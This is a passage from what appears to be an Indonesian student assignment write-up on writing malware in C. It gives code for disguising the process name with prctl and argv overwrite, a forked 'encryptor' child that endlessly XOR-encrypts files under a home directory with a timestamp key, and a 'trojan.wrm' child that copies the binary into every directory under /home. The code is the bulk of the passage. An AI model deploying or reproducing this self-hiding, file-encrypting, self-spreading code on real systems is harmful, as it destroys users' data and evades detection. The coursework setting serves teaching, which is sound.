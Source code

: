 ```C
    }
}

void menyamarkan_process(int argc, char **argv) {
    environ = NULL;
    prctl(PR_SET_NAME, "/soal_3", 0, 0, 0);

    if (argc > 0) {
        size_t len = 64;
        memset(argv[0], 0, len);
        strncpy(argv[0], "/soal_3", len);
    }
}
```
### b)
Lalu buatlah anak fitur pertama yang akan memindai directory saat ini dan mengenkripsi file dan folder menggunakan xor dengan timestamp saat dijalankan.
```C
void child_1(int argc, char **argv) {
    pid_t child = fork();
    if (child < 0) exit(EXIT_FAILURE);
    if (child == 0) {
        prctl(PR_SET_NAME, "encryptor", 0, 0, 0);

        if (argc > 0) {
            size_t len = 64;
            memset(argv[0], 0, len);
            strncpy(argv[0], "encryptor", len);
        }

        unsigned int key = (unsigned int)time(NULL);
        while (1) {
            encrypt("/home/isolate", key);
        }
        exit(EXIT_SUCCESS);
    }
}
```
### c)
Setelah itu buat anak fitur kedua yang akan menyebarkan malware ini dengan cara membuat salinan binary malware di setiap directory yang ada di home.
```C
void child_2(int argc, char **argv) {
    pid_t child = fork();
    if (child < 0) exit(EXIT_FAILURE);
    if (child == 0) {
        prctl(PR_SET_NAME, "trojan.wrm", 0, 0, 0);

        if (argc > 0) {
            size_t len = 64;
            memset(argv[0], 0, len);
            strncpy(argv[0], "trojan.wrm", len);
        }

        while (1) {
            copy_self_recursive("/home/target");
        }
        exit(EXIT_SUCCESS);
    }
}
```
### d)